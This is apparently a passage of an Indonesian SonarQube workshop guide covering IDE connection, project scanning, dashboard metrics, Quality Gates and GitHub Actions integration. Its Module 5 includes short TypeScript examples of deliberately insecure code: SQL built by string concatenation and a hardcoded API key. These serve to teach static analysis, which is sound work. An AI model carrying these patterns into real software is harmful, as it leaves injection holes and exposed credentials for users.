

5. Isi form generate token seperti ini:

| Field | Isi yang disarankan | Penjelasan |
|-------|---------------------|------------|
| **Name** | `vscode-sonarqube-training` | Nama bebas untuk membedakan token ini dengan token lain. Gunakan nama yang jelas agar mudah dikenali saat nanti ingin di-rotate atau di-revoke. |
| **Type** | `User Token` | Pilih ini untuk koneksi dari VS Code ke SonarQube Server. Token ini mewakili akun Anda saat extension membaca project, rules, dan konfigurasi dari server. |
| **Expires in** | `30 days` untuk lab, atau pilih masa berlaku lebih panjang jika memang perlu | Menentukan kapan token otomatis kadaluarsa. Setelah expired, koneksi SonarQube for IDE akan gagal sampai Anda membuat token baru dan memperbarui `settings.json`. |

6. Klik **Generate**
7. Klik **Copy** lalu paste token ke field `token` di `settings.json`

> Token hanya ditampilkan sekali setelah dibuat. Jika terlewat, Anda harus revoke token lama lalu generate token baru.
>
> Token pada langkah ini khusus untuk **Connected Mode di VS Code**. Nanti pada **Modul 4** Anda akan membuat **token analisis project** saat setup project di SonarQube. Jadi memang ada dua token, tetapi fungsinya berbeda:
>
> - **User Token**: dipakai oleh SonarQube for IDE di VS Code
> - **Project token / token analisis**: dipakai di `sonar-project.properties` saat menjalankan `sonar-scanner`

> aside positive
> Sekarang SonarQube for IDE di VS Code Anda terhubung ke SonarQube server! Issue yang muncul di editor akan konsisten dengan rules di server.

### ✅ Checklist

Pastikan semua sudah ready sebelum lanjut:

| Yang dicek | Target |
|------------|--------|
| **SonarQube for IDE** | Extension sudah terinstall di VS Code |
| **SonarScanner** | Perintah `sonar-scanner --version` berhasil di terminal |
| **Akses server** | Bisa login ke `http://sonar-training.duckdns.org` |
| **Connected Mode** | SonarQube for IDE sudah terhubung ke server |

> aside positive
> Semua tools siap! Selanjutnya kita akan melakukan scanning project pertama.

## Modul 4 - Scanning Project Pertama Anda
Duration: 25:00

### Setup Project

#### Step 1: Siapkan Project

Jika Anda sudah punya **project pribadi** yang ingin dianalisis, Anda boleh langsung menggunakan project tersebut dan lanjut ke konfigurasi SonarQube.

Jika **belum punya project untuk latihan**, gunakan sample project dari GitHub berikut:

```bash
git clone https://github.com/mpuhambyah/sonarqube-training-ts-buggy.git
cd sonarqube-training-ts-buggy
npm install
```

> aside positive
> Intinya, pada modul ini Anda bisa memilih salah satu:
>
> - pakai **project pribadi** Anda sendiri
> - atau clone **sample project** dari repo `mpuhambyah` jika ingin langsung mengikuti hands-on yang sama dengan materi training

#### Step 2: Buat Project di SonarQube

1. Buka SonarQube → **Projects** → **Create Project**
2. Pilih **Manually**
3. Isi:
  - **Project display name:** bebas, misalnya `Aplikasi Inventory Bagas`
  - **Project key:** bebas, misalnya `inventory-bagas`
4. Klik **Set Up**
5. Pada halaman berikutnya, pilih dulu **repository / analysis method**



Di halaman ini SonarQube menampilkan beberapa opsi integrasi, termasuk beberapa **favorite CI** seperti GitHub Actions, GitLab CI, Azure Pipelines, atau Jenkins.

Maksud dari opsi-opsi itu adalah:

- SonarQube ingin tahu apakah analisis akan dijalankan otomatis dari pipeline CI/CD
- Jika Anda memilih salah satu CI, SonarQube akan menampilkan panduan dan snippet konfigurasi yang sesuai dengan platform tersebut
- Opsi ini cocok jika project Anda memang sudah terhubung ke repository dan pipeline build otomatis

Untuk workshop ini, pilih **Locally** karena:

- Kita ingin peserta menjalankan scan langsung dari laptop lebih dulu agar alurnya mudah dipahami
- Setup lokal lebih cepat untuk hands-on dibanding harus menyiapkan pipeline CI/CD di awal
- File `sonar-project.properties` dan perintah `npx sonar-scanner` lebih mudah dipelajari sebelum masuk ke integrasi CI/CD pada modul berikutnya

6. Pilih **Locally**
7. Generate **token project** → copy dan simpan



**Catatan penting:**

- Nilai **Project display name** akan dipakai lagi pada `sonar.projectName`
- Nilai **Project key** akan dipakai lagi pada `sonar.projectKey`
- Token yang dibuat pada tahap setup project ini akan dipakai pada `sonar.login`

Saat token project selesai dibuat, tampilannya akan seperti ini:



Setelah klik **Generate**, SonarQube akan menampilkan hasil token seperti ini:



Klik **Copy**, lalu paste token tersebut ke file `sonar-project.properties`, tepatnya pada bagian:

```properties
sonar.login=YOUR_PROJECT_TOKEN_HERE
```

> aside positive
> Supaya tidak tertukar dengan token VS Code pada modul sebelumnya, anggap token di langkah ini sebagai **token untuk scan project**.

#### Step 3: Buat sonar-project.properties

Buat file `sonar-project.properties` di root project. Ganti nilai sesuai dengan project Anda:

```properties
sonar.projectKey=YOUR_PROJECT_KEY
sonar.projectName=YOUR_PROJECT_NAME
sonar.sources=src
sonar.host.url=http://sonar-training.duckdns.org
sonar.login=YOUR_PROJECT_TOKEN_HERE

# TypeScript specific
sonar.typescript.lcov.reportPaths=coverage/lcov.info
sonar.exclusions=**/node_modules/**,**/dist/**
```

**Contoh yang sudah diisi** (berdasarkan project key dan nama yang dibuat di langkah sebelumnya):

```properties
sonar.projectKey=inventory-bagas
sonar.projectName=Aplikasi Inventory Bagas
sonar.sources=src
sonar.host.url=http://sonar-training.duckdns.org
sonar.login=sqp_xxxxxxxxxxxxxxxxxxxx

# TypeScript specific
sonar.typescript.lcov.reportPaths=coverage/lcov.info
sonar.exclusions=**/node_modules/**,**/dist/**
```

Penjelasan mapping-nya:

- `sonar.projectKey` diisi dari field **Project key** saat create project
- `sonar.projectName` diisi dari field **Project display name** saat create project
- `sonar.login` diisi dengan **token project** yang baru saja di-generate pada langkah sebelumnya

> aside positive
> **Lupa project key?** Buka project Anda di SonarQube, lalu lihat URL di browser. Project key ada di parameter `id=`, contoh:
> ```
> http://sonar-training.duckdns.org/dashboard?id=inventory-bagas
> ```
> Nilai `inventory-bagas` itulah yang dipakai sebagai `sonar.projectKey`.

> aside positive
> Di environment lab ini, penggunaan `sonar.login` untuk token analisis project sudah teruji dan bisa langsung dipakai saat menjalankan scanner.

#### Step 4: Run Scanner!

```bash
npx sonar-scanner
```

Tunggu sampai selesai. Anda akan melihat output seperti:
```
17:24:03.852 INFO  Analysis total time: 25.099 s
17:24:03.855 INFO  EXECUTION SUCCESS
17:24:03.856 INFO  Total time: 39.915s
[INFO]  Bootstrapper: SonarScanner CLI finished successfully
```

Jika log Anda mirip seperti di atas, berarti proses scan sudah sukses dan hasil analisis sudah terkirim ke SonarQube Server.

#### Step 5: Lihat Hasil di Dashboard

1. Buka SonarQube → **Projects**
2. Klik project Anda
3. Perhatikan dashboard project Anda — tampilannya akan seperti ini:



4. Catat temuan berikut:
   - Berapa **Bugs** ditemukan?
   - Berapa **Vulnerabilities**?
   - Berapa **Code Smells**?
   - Apa **Rating** untuk Reliability, Security, Maintainability?
   - Berapa persentase **Duplication**?

### Membaca Dashboard: Kenapa "Passed" padahal Ada Temuan?

> aside positive
> **Pertanyaan umum:** *"Kok Quality Gate-nya PASSED, padahal ada 4 Bugs dan 16 Code Smells?"*

Ini membingungkan di awal, tapi begini cara melihatnya:

**Quality Gate "Sonar Way" hanya mengecek kode BARU** - bukan keseluruhan kode. Karena ini scan pertama, SonarQube menganggap semua kode sebagai *existing code*, bukan *new code*. Hasilnya, kondisi Quality Gate tidak ada yang dilanggar → **PASSED**.

| Metrik di Dashboard | Penjelasan |
|---------------------|------------|
| **Quality Gate: Passed** | Semua kondisi di Quality Gate terpenuhi — pada scan pertama, ini wajar karena belum ada "new code" |
| **4 Bugs / Reliability C** | Ada 4 bug yang ditemukan di keseluruhan kode. Rating C berarti ada minimal 1 major bug |
| **0 Vulnerabilities / Security A** | Tidak ada celah keamanan yang terdeteksi — kode sudah aman untuk aspek ini |
| **6 Security Hotspots / Security Review E** | Ada 6 bagian kode yang perlu direview manual. Rating E karena 0% sudah di-review — bukan berarti semuanya berbahaya |
| **16 Code Smells / Maintainability A** | Ada 16 code smell, namun debt ratio masih rendah sehingga Maintainability tetap A |
| **3h 40min Debt** | Estimasi waktu yang dibutuhkan untuk memperbaiki semua code smell |
| **0.0% Coverage** | Belum ada unit test — ini normal untuk project baru yang belum ditest |
| **8.7% Duplication** | 8.7% kode terduplikasi — sedikit di atas batas ideal (< 3%) |

> aside negative
> **Security Review E** terlihat mengkhawatirkan, tapi artinya Anda **belum mereview** Security Hotspot yang ada — bukan berarti semuanya berbahaya. Kita akan melakukan review ini di **Modul 8**.

### Multi-Language Support

SonarQube mendukung 30+ bahasa pemrograman:

| Bahasa | Plugin | Community Edition |
|--------|--------|:-----------------:|
| TypeScript/JavaScript | Built-in | ✅ |
| Java | Built-in | ✅ |
| Python | Built-in | ✅ |
| PHP | Built-in | ✅ |
| C# | Built-in | ✅ |
| Go | Built-in | ✅ |
| Kotlin | Built-in | ✅ |
| C/C++ | SonarCFamily | ❌ (Commercial) |

### Branch Analysis

```bash
# Scan branch tertentu
npx sonar-scanner \
  -Dsonar.branch.name=feature/new-login
```

### Pull Request Analysis

```bash
# Scan PR
npx sonar-scanner \
  -Dsonar.pullrequest.key=42 \
  -Dsonar.pullrequest.branch=feature/new-login \
  -Dsonar.pullrequest.base=main
```

> aside negative
> Branch analysis dan PR analysis pada Community Edition terbatas. Untuk fitur lengkap, dibutuhkan Developer Edition atau lebih.

### ✅ Hands-on: Scan Project Anda

1. Clone sample project
2. Buat project di SonarQube
3. Buat `sonar-project.properties`
4. Jalankan `npx sonar-scanner`
5. Buka dashboard dan catat temuan Anda

**Pertanyaan diskusi:**
- Apa issue paling kritis yang ditemukan?
- Apakah ada false positive?
- Issue mana yang paling mudah dan paling sulit di-fix?

> aside positive
> **Contoh temuan:** SQL Injection (Blocker), hardcoded password (Hotspot), `any` type & `console.log` (Code Smell). Paling mudah di-fix: `any` type. Paling sulit: SQL Injection (perlu parameterized query).

## Modul 5 - Memahami Metrik & Dashboard
Duration: 15:00

### Overview Metrik SonarQube

SonarQube mengelompokkan issue ke dalam 3 kategori utama:

### 🐛 Bugs

**Definisi:** Kode yang salah secara logika dan berpotensi menyebabkan error saat runtime.

**Contoh:**
```typescript
// Bug: kondisi selalu false
function checkAge(age: number) {
  if (age !== age) {  // NaN check yang salah
    return "invalid";
  }
}

// Bug: null dereference
function getLength(str: string | null) {
  return str.length;  // bisa null!
}
```

**Reliability Rating:**
| Rating | Arti |
|--------|------|
| **A** | 0 bugs |
| **B** | ≥ 1 minor bug |
| **C** | ≥ 1 major bug |
| **D** | ≥ 1 critical bug |
| **E** | ≥ 1 blocker bug |

**Contoh tampilan Issues tab - Bug:**



Dari screenshot di atas, project sample kita memiliki **4 Bugs**, semuanya severity **Major**:

| Issue | File | Lokasi | Effort |
|-------|------|--------|--------|
| Unreachable code. | `userService.ts` | L96 | 5 min |
| Unreachable code. | `userService.ts` | L103 | 5 min |
| Remove this conditional structure (identical blocks) | `helpers.ts` | L21 | 15 min |
| 'result' is assigned to itself. | `helpers.ts` | L62 | 3 min |

Total estimasi waktu perbaikan: **28 menit**. Klik salah satu issue untuk melihat lokasi kode dan rekomendasi fix dari SonarQube.

### 🔓 Vulnerabilities

**Definisi:** Kode yang memiliki celah keamanan yang bisa dieksploitasi.

**Contoh:**
```typescript
// Vulnerability: SQL Injection
const query = "SELECT * FROM users WHERE id = " + userId;

// Vulnerability: Hardcoded credential
const API_KEY = "sk-1234567890abcdef";
```

**Security Rating:**
| Rating | Arti |
|--------|------|
| **A** | 0 vulnerabilities |
| **B** | ≥ 1 minor vulnerability |
| **C** | ≥ 1 major vulnerability |
| **D** | ≥ 1 critical vulnerability |
| **E** | ≥ 1 blocker vulnerability |

**Contoh tampilan Issues tab - Vulnerability:**



Project sample kita memiliki **0 Vulnerabilities** — tidak ada celah keamanan yang terdeteksi secara otomatis. Security Rating = **A**.

> aside positive
> Tidak ada vulnerability bukan berarti kode 100% aman. SonarQube hanya mendeteksi pola yang sudah dikenal. Bagian yang perlu review manual ada di tab **Security Hotspots** yang kita bahas di Modul 8.

### 😤 Code Smells

**Definisi:** Kode yang berfungsi, tapi sulit dipahami dan di-maintain.

**Contoh:**
```typescript
// Code Smell: function terlalu panjang (>30 baris)
// Code Smell: cognitive complexity terlalu tinggi
// Code Smell: parameter terlalu banyak
function processOrder(
  userId: any, orderId: any, items: any, 
  discount: any, tax: any, shipping: any,
  coupon: any, address: any
) {
  // ... 200 baris kode ...
}

// Code Smell: unused variable
const unusedVar = "never used";

// Code Smell: console.log in production
console.log("debug: user data", userData);
```

**Maintainability Rating:**
| Rating | Debt Ratio | Arti |
|--------|------------|------|
| **A** | ≤ 5% | Sangat baik |
| **B** | 6-10% | Baik |
| **C** | 11-20% | Cukup |
| **D** | 21-50% | Kurang |
| **E** | > 50% | Buruk |

**Contoh tampilan Issues tab - Code Smell:**



Project sample kita memiliki **16 Code Smells** dengan rincian severity:

| Severity | Jumlah | Contoh |
|----------|--------|--------|
| **Critical** | 3 | Cognitive Complexity dari 77 → harus ≤ 15 (1h 7min per issue) |
| **Major** | 7 | Terlalu banyak parameter (10 params, max 7), redundant assignment |
| **Minor** | 4 | Unused import (`bcrypt`, `CONFIG`), duplicate import |
| **Info** | 2 | Saran best practice |

Total estimasi perbaikan: **3 jam 40 menit**. Meski banyak, Maintainability tetap **A** karena *debt ratio* masih rendah dibanding total ukuran kode.

### 📊 Coverage

**Definisi:** Persentase baris kode yang dijalankan oleh unit test.

```
Coverage = (Lines Covered by Tests / Total Lines) × 100%
```

**Best practice:** Target **80%+** untuk new code.

### 📋 Duplication

**Definisi:** Persentase baris kode yang terduplikasi.

**Best practice:** Target **< 3%** duplication.

### ✅ Hands-on: Baca Dashboard Anda

Buka project yang sudah di-scan, jawab pertanyaan berikut:

1. Reliability Rating project Anda = ?
2. Security Rating = ?
3. Maintainability Rating = ?
4. Berapa total bugs? Klik salah satu - apa deskripsi issue-nya?
5. Berapa total vulnerabilities? Apa yang paling kritis?
6. Berapa total code smells? Mana yang paling sering muncul?
7. Code coverage = ? (Kemungkinan 0% karena belum ada test)
8. Duplication = ?

> aside positive
> **Perkiraan:** Rating D-E untuk Reliability & Security, C-D Maintainability. Bugs ~3-5, Vulnerabilities ~2-4, Code Smells ~10-20. Coverage 0% (belum ada test), Duplication 0-5%.

## Modul 6 - Quality Gate & Quality Profile
Duration: 15:00

### Quality Gate: "Lulus atau Tidak?"

Quality Gate adalah **kumpulan kondisi** yang menentukan apakah project Anda **PASS** ✅ atau **FAIL** ❌.

### Default Quality Gate: "Sonar Way"

Kondisi default:

| Metrik | Operator | Nilai |
|--------|----------|-------|
| Coverage on New Code | ≥ | 80% |
| Duplicated Lines on New Code | ≤ | 3% |
| Maintainability Rating on New Code | = | A |
| Reliability Rating on New Code | = | A |
| Security Rating on New Code | = | A |
| Security Hotspots Reviewed on New Code | ≥ | 100% |

> aside positive
> Quality Gate "Sonar Way" berfokus pada **new code** - ini adalah pendekatan "Clean as You Code". Kode lama tidak diblok, tapi kode baru harus bersih.

### Membuat Custom Quality Gate

1. Buka **Quality Gates** di menu
2. Klik **Create**
3. Beri nama: `Training Gate`
4. Tambahkan kondisi:

**Contoh: Quality Gate untuk Tim Internal**

| Metrik | Operator | Nilai |
|--------|----------|-------|
| Bugs on New Code | = | 0 |
| Vulnerabilities on New Code | = | 0 |
| Code Smells on New Code | ≤ | 5 |
| Coverage on New Code | ≥ | 60% |
| Duplicated Lines on New Code | ≤ | 5% |

5. Klik **Set as Default** (opsional)

### Quality Profile: "Rules Apa yang Dipakai?"

Quality Profile menentukan **rules mana yang aktif** saat scanning.

1. Buka **Quality Profiles** di menu
2. Lihat profile default untuk TypeScript: **Sonar Way**
3. Klik profile → lihat daftar rules yang aktif

### Membuat Custom Quality Profile

1. Buka **Quality Profiles**
2. Klik **Create** pada bahasa TypeScript
3. Pilih **Inherit from Sonar Way** (recommended)
4. Anda bisa:
   - **Activate** rules tambahan
   - **Deactivate** rules yang tidak relevan
   - **Ubah severity** rule

**Contoh use case:**
- Nonaktifkan rule tentang JSDoc jika tim tidak mewajibkannya
- Tambahkan rule custom tentang naming convention

### ✅ Hands-on: Custom Quality Gate

1. Buat Quality Gate baru bernama `[NAMA]-Gate`
2. Tambahkan minimal 3 kondisi
3. Assign ke project Anda
4. Scan ulang project → apakah PASS atau FAIL?
5. Coba ubah threshold agar project PASS
6. Kembalikan threshold yang ketat - ini akan berguna di modul selanjutnya

## Modul 7 - Integrasi SonarQube dengan CI/CD
Duration: 25:00

### Mengapa CI/CD + SonarQube?

```
Manual Scan:     Developer ingat → scan → lihat hasil → (mungkin) fix
CI/CD + Sonar:   Push code → otomatis scan → block merge jika gagal
```

**CI/CD + SonarQube = Quality enforcement otomatis!**

### Arsitektur CI/CD + SonarQube



### Setup GitHub Actions + SonarQube

#### Step 1: Generate Token di SonarQube

1. Buka SonarQube → **My Account** → **Security**
2. Generate token → copy

#### Step 2: Tambah GitHub Secrets

Di repo GitHub → **Settings** → **Secrets and variables** → **Actions**:

| Secret Name | Value |
|-------------|-------|
| `SONAR_TOKEN` | Token dari Step 1 |
| `SONAR_HOST_URL` | `http://sonar-training.duckdns.org` |

#### Step 3: Buat Workflow File

Buat `.github/workflows/sonarqube.yml`:

```yaml
name: SonarQube Analysis

on:
  push:
    branches: [ main ]
  pull_request:
    branches: [ main ]

jobs:
  sonarqube:
    name: SonarQube Scan
    runs-on: ubuntu-latest
    
    steps:
      - name: Checkout code
        uses: actions/checkout@v4
        with:
          fetch-depth: 0  # Full history for better analysis

      - name: Setup Node.js
        uses: actions/setup-node@v4
        with:
          node-version: '20'

      - name: Install dependencies
        run: npm ci

      - name: Run tests with coverage
        run: npm test -- --coverage
        continue-on-error: true

      - name: SonarQube Scan
        uses: SonarSource/sonarqube-scan-action@v3
        env:
          SONAR_TOKEN: ${{ secrets.SONAR_TOKEN }}
          SONAR_HOST_URL: ${{ secrets.SONAR_HOST_URL }}

      - name: SonarQube Quality Gate
        uses: SonarSource/sonarqube-quality-gate-action@v1
        timeout-minutes: 5
        env:
          SONAR_TOKEN: ${{ secrets.SONAR_TOKEN }}
```

#### Step 4: Push & Lihat Pipeline

```bash
git add .
git commit -m "Add SonarQube CI/CD integration"
git push origin main
```

Buka tab **Actions** di GitHub → lihat workflow berjalan.

### Demo: Quality Gate Fail di Pipeline

```bash
# Buat branch dengan kode buggy
git checkout -b feature/buggy-code

# Tambahkan kode yang sengaja jelek
# ... (tambah vulnerability, code smell, dll)

git add .
git commit -m "Add buggy feature"
git push origin feature/buggy-code

# Buat Pull Request di GitHub
# → Lihat Quality Gate FAIL di PR checks!
```

### PR Decoration

Jika quality gate gagal, GitHub akan menampilkan status check **failed** pada Pull Request. Ini mencegah merge kode yang tidak memenuhi standar.

```
PR #42: Add buggy feature
────────────────────────────
Checks:
  ❌ SonarQube Quality Gate - Failed
     2 new bugs, 1 new vulnerability
     Coverage: 0% (< 80% required)
     
  → Cannot merge until all checks pass
```

